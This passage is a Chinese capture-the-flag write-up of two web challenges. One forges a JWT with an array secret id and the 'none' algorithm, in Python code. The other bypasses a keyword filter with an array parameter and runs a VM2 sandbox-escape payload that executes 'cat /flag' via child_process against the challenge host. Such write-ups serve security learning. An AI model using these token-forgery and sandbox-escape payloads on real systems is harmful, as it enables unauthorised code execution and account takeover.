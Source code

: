 webpack map泄露，源码里告知koa-static的static被设置为WEB根目录

下载源码，api.js中

```javascript
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;

if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
    throw new APIError('login error', 'no such secret id');
}

const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
```

借助JS弱类型来保证`secrets[sid] == null && sig >= 0 && sig < secret.length`。JSON支持的就那几种类型，简单尝试发现数组可行

查看jsonwebtoken源码，存在option.alg == header.alg的校验。当secret == null时option.alg == 'none'，故jwt_header.alg也需为'none'

```python
import jwt

a = {
    "secretid": [],
    "username": "admin",
    "password": "admin",
    "iat": 1587286516
}
jwt.encode(a, None, algorithm='none')
```

### run_code

一看404页面就知道是node.js，Error.stack可知是VM2沙盒

参数存在过滤，其实我压根没考虑过滤，知道是JS后就fuzz了`?code[]=`传参。过滤逻辑应该是`code.indexOf(black_list_word) != -1`，数组自然绕过，且JS中`['exp'].toString() == 'exp'`

去VM2的issues页找payload：`https://github.com/patriksimek/vm2/issues/225`

```python
import requests

exp = """(function(){
	try{
		Buffer.from(new Proxy({}, {
			getOwnPropertyDescriptor(){
				throw f=>f.constructor("return process")();
			}
		}));
	}catch(e){
		return e(()=>{}).mainModule.require("child_process").execSync("cat /flag").toString();
	}
})()"""

r = requests.get(
    'http://8124f165bad24430831b216fad33ec151380ff9f311f421b.changame.ichunqiu.com/run.php?code[]='
    + exp)
print(r.text)
```
